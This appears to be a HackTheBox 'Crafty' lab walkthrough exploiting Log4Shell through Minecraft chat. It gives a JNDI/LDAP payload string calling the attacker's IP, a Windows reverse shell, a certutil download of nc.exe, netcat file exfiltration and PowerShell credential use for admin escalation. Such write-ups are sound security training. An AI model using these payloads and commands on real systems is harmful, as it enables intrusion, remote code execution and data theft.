 ```yaml
---
date: 2025-04-03
categories: [CTF, HTB]
title: "HTB - Crafty"
tags: ['ldap', 'linux', 'nmap', 'powershell', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows', 'minecraft']

description: "Crafty - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Crafty

- NMAP

```bash
nmap 10.129.18.108 -Pn -p- -vv

```

![image1](../resources/2348de89026443d1a2151719e9194f0b.png)


![image2](../resources/22cbf939d17c489da10248ef960af600.png)

- Add crafty.htb to /etc/hosts

![image3](../resources/cd35b355587447c3940ccdaa292e1eb1.png)

- Subdomain enumeration:

```bash
wfuzz -u crafty.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crafty.htb" --hl 1

```
- Download a Minecraft player - Tslauncher
- Run the .jar file and enter any username and choose the version
- Then install and enter game


![image4](../resources/a64c40c42b874113b433701dcfa080a4.png)

- Add server


![image5](../resources/eabc3d91c33e4c92a160fb8f20b90698.png)

- Join server

- Here is a POC log4j-shell for this version
[https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)

[CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1532s)

<https://github.com/pentesterland/Log4Shell>

- Clone the directory and cd into it

```bash
git clone https://github.com/kozmer/log4j-shell-poc

```
- Download jdk1.8 - and rename the folder to jdk1.8.0_20:

```bash
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz

```

![image6](../resources/b46b34241e22412da02e3ffe1aed7646.png)

- Set up listener:

![image7](../resources/71521ef2a41e4916a070dbdb57f596c8.png)

- Run python script:

![image8](../resources/68b2cf81195444ceadc354bbb64a605a.png)

- Copy the string to send:

```bash
${jndi:ldap://10.10.14.38:1389/a}

```
- In the TSlauncher app - Press T to open the chat box
Paste in the code


![image9](../resources/c3eea277e0c24a118009299e65d233f5.png)

- We can see the GET requests from the webserver

![image10](../resources/46893a8a77214232847249d37e277ad2.png)

- But no shell

- Looking at the code:


![image11](../resources/74c4303464944f7a9a3a9cb1040a4bb9.png)

This is for a Linux server

- We need to change the payload for a Windows reverse shell:

![image12](../resources/2269a1a1c7b94a42875e35d9dec3f28d.png)

- Replace /bin/sh with cmd.exe - The IP and Port forwarding happens in the Java code itself

- Repeat the steps:
  - Set up listener
  - Run the python poc.py
  - Copy the command
  - Paste into minecraft chat

- Shell

![image13](../resources/75875bad84a7458f91e675134f30b51e.png)


![image14](../resources/a73dc94b611d4682aafc0ea6eb252377.png)

```bash
dir /Q /A

```

![image15](../resources/fa08f790e63c4dd9bf794153bb670c68.png)

- Found a .jar file

![image16](../resources/623a1da6f4314c86bb4ffb9824e179e4.png)

- We can't read it here so we need to transfer it to Kali

- Set up Python server

- Copy nc.exe over to the target:

`certutil.exe -urlcache -f http://10.10.14.38:8082/nc.exe c:\Users\svc_minecraft\Documents\nc.exe`


- Using nc we can send and receive:
  - On Kali:

```bash
nc -lnvp 4444 > playercounter-1.0-SNAPSHOT.jar

```
- On Windows:

```bash
c:\Users\svc_minecraft\Documents\nc.exe 10.10.14.38 4444 < playercounter-1.0-SNAPSHOT.jar

```
- **Ctrl+C on Kali** to stop the connection

![image17](../resources/2afd90148abb462db1414bc56bc70efc.png)


![image18](../resources/61b45372a37a40699d92303848612071.png)


![image19](../resources/650ad55a7f7f4c0dba8c1698e83cecdc.png)

- Reading the Java archive file:

```bash
jar tf <file.jar>:
```
![image20](../resources/473050f698774d32bdc4ed132f4646c6.png)

- Extract with:

```bash
jar xf <file.jar>
```

- That didn't extract anything useful and not all the files were there, as seen above

- Open the .jar file with a Java Decompiler JD-GUI:

![image21](../resources/faed98b62a334135b1b0456dfef230f1.png)
- We find a potential password

- Open Powershell and enter the following to open a new Powershell session as Admin:

```powershell
$User = "Administrator"
$Password = ConvertTo-SecureString "<Password>" -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential($User, $Password)
Start-Process cmd.exe -Credential $Credential
```

![image22](../resources/37e2e2bd470240299708cb4cab49acb7.png)


![image23](../resources/d022535dad4c40eebf79a4de54bb36cb.png)